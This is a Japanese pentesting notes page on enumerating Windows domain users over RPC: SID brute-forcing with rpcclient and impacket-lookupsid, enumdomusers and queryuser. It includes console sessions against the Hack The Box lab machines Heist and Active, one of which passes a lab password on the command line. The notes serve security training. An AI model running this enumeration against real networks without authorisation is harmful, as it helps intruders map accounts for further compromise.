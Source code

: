 # Attack
----

## SID Bruteforce
* セキュリティ識別子（SID）は`S-1-5-ドメイン識別子-相対識別子`で構成される
* ドメイン識別子は予め定められていないが、Administratorなどの一部の相対識別子は予め定められている
  * なお`S-1-5-21-ドメイン識別子-500`はAdministratorである
  * 詳細は[オペレーティング システムの既知のWindows識別子](https://docs.microsoft.com/ja-jp/troubleshoot/windows-server/identity/security-identifiers-in-windows)を参照
* rpcにアクセス可能な権限を有する時、`lookupnames`でドメイン識別子を取得可能
* `lookupsids`でSIDからユーザ名の取得が可能であるため、相対識別子の総当りを行うことで、該当のドメインのユーザを列挙可能
* impacketのlookupsidsを利用可能
* HTB: Heist

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Heist]
  └──╼ $rpcclient -U hazard -h heist.htb
  Enter WORKGROUP\hazard's password:
  rpcclient $> lookupnames hazard
  hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1009
  S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1010
  S-1-5-21-4254423774-1266059056-3197185112-1010 *unknown*\*unknown* (8)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1011
  S-1-5-21-4254423774-1266059056-3197185112-1011 *unknown*\*unknown* (8)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1012
  S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1013
  S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1014
  S-1-5-21-4254423774-1266059056-3197185112-1014 *unknown*\*unknown* (8)
  rpcclient $> ^C
  ┌─[✗]─[rio@parrot]─[~/Htb/Heist]
  └──╼ $impacket-lookupsid hazard:stealth1agent@heist.htb
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
  
  [*] Brute forcing SIDs at heist.htb
  [*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
  [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
  500: SUPPORTDESK\Administrator (SidTypeUser)
  501: SUPPORTDESK\Guest (SidTypeUser)
  503: SUPPORTDESK\DefaultAccount (SidTypeUser)
  504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
  513: SUPPORTDESK\None (SidTypeGroup)
  1008: SUPPORTDESK\Hazard (SidTypeUser)
  1009: SUPPORTDESK\support (SidTypeUser)
  1012: SUPPORTDESK\Chase (SidTypeUser)
  1013: SUPPORTDESK\Jason (SidTypeUser)
  ```

##  enumdomusers
* enumdomusersを利用し、ドメインユーザを列挙可能
* HTB: Active

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Active]
  └──╼ $rpcclient -U svc_tgs -h active.htb
  Enter WORKGROUP\svc_tgs's password:
  rpcclient $> enumdomusers
  user:[Administrator] rid:[0x1f4]
  user:[Guest] rid:[0x1f5]
  user:[krbtgt] rid:[0x1f6]
  user:[SVC_TGS] rid:[0x44f]
  rpcclient $> ^C
  ```



## queryuser
* queryuserを利用し、ユーザのパスワード設定時刻を取得可能
* HTB: Active

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Active]
  └──╼ $rpcclient -U svc_tgs -h active.htb
  Enter WORKGROUP\svc_tgs's password:
  rpcclient $> queryuser administrator
          User Name   :   Administrator
          Full Name   :
          Home Drive  :
          Dir Drive   :
          Profile Path:
          Logon Script:
          Description :   Built-in account for administering the computer/domain
          Workstations:
          Comment     :
          Remote Dial :
          Logon Time               :      金, 22  1月 2021 17:42:31 JST
          Logoff Time              :      木, 01  1月 1970 09:00:00 JST
          Kickoff Time             :      木, 01  1月 1970 09:00:00 JST
          Password last set Time   :      木, 19  7月 2018 04:06:40 JST
          Password can change Time :      金, 20  7月 2018 04:06:40 JST
          Password must change Time:      木, 14  9月 30828 11:48:05 JST
          unknown_2[0..31]...
          user_rid :      0x1f4
          group_rid:      0x201
          acb_info :      0x00000210
          fields_present: 0x00ffffff
          logon_divs:     168
          bad_password_count:     0x00000000
          logon_count:    0x00000023
          padding1[0..7]...
          logon_hrs[0..21]...
  rpcclient $> ^C
  ```

  
